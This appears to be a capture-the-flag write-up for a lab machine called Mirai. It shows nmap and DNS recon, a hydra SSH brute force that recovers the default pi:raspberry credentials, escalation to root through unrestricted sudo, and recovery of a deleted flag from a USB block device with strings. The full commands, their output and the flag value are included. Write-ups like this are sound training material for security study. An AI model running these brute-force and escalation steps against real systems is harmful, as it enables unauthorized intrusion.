 # Mirai

## Machine Info

![Mirai](./Mirai.assets/Mirai.png)

## Recon

- nmap

```console
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
1203/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (96%), Linux 3.2 - 4.9 (96%), Linux 4.8 (96%), Linux 4.9 (95%), Linux 3.16 (95%), Linux 3.12 (95%), Linux 3.18 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- domain recon -> `pi.hole`

![image-20231229165224046](./Mirai.assets/image-20231229165224046.png)

```console
$ dig any @10.10.10.48 pi.hole

; <<>> DiG 9.18.16-1-Debian <<>> any @10.10.10.48 pi.hole
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13347
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;pi.hole.                       IN      ANY

;; ANSWER SECTION:
pi.hole.                300     IN      A       192.168.204.129

;; Query time: 389 msec
;; SERVER: 10.10.10.48#53(10.10.10.48) (TCP)
;; WHEN: Fri Dec 29 08:17:32 CST 2023
;; MSG SIZE  rcvd: 52

dig axfr @10.10.10.48 pi.hole -> no zone transfer
```

- web: Pi-hole v3.1.4

## Foothold

### Brute force Pi-Hole [x]

![image-20231229165325052](./Mirai.assets/image-20231229165325052.png)

![image-20231229165329014](./Mirai.assets/image-20231229165329014.png)

### Brute force ssh

- hydra -> `pi:raspberry`

```console
$ hydra -l pi -P /usr/share/wordlists/metasploit/unix_passwords.txt -I -t 12 ssh://10.10.10.48
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-29 08:35:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 12 tasks per 1 server, overall 12 tasks, 1009 login tries (l:1/p:1009), ~85 tries per task
[DATA] attacking ssh://10.10.10.48:22/
[STATUS] 86.00 tries/min, 86 tries in 00:01h, 923 to do in 00:11h, 12 active
[STATUS] 84.00 tries/min, 252 tries in 00:03h, 757 to do in 00:10h, 12 active
[STATUS] 78.86 tries/min, 552 tries in 00:07h, 457 to do in 00:06h, 12 active
[STATUS] 76.00 tries/min, 912 tries in 00:12h, 97 to do in 00:02h, 12 active
[STATUS] 75.23 tries/min, 978 tries in 00:13h, 31 to do in 00:01h, 12 active
[22][ssh] host: 10.10.10.48   login: pi   password: raspberry
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-29 08:49:28
```

## Privilege Escalation

- pi is already a super user

```console
pi@raspberrypi:~/Desktop/Plex$ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop/Plex$ sudo su root
root@raspberrypi:/home/pi/Desktop/Plex#
```

- find root.txt -> `df`, `mount`

```console
root@raspberrypi:/home/pi/Desktop/Plex# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...

root@raspberrypi:/home/pi/Desktop/Plex# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M   13M   88M  13% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M   76K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M  4.0K   50M   1% /run/user/1000

root@raspberrypi:/media/usbstick# ls -al
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found

root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

- for **block** device, use **strings** or **grep** to cat content of deleted root.txt

- `strings`

```console
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

- `xxd /dev/sdb | grep -v '0000 0000 0000 0000 0000 0000 0000 0000'`

![image-20231229165555922](./Mirai.assets/image-20231229165555922.png)

- `grep -B2 -A2 -a '[a-z0-9]\{32\}' /dev/sdb`

![image-20231229165604901](./Mirai.assets/image-20231229165604901.png)

## Exploit Chain

port recon -> dns recon -> brute force ssh -> pi shell -> sudo -l -> root shell -> find block device -> strings or grep to catch root.txt

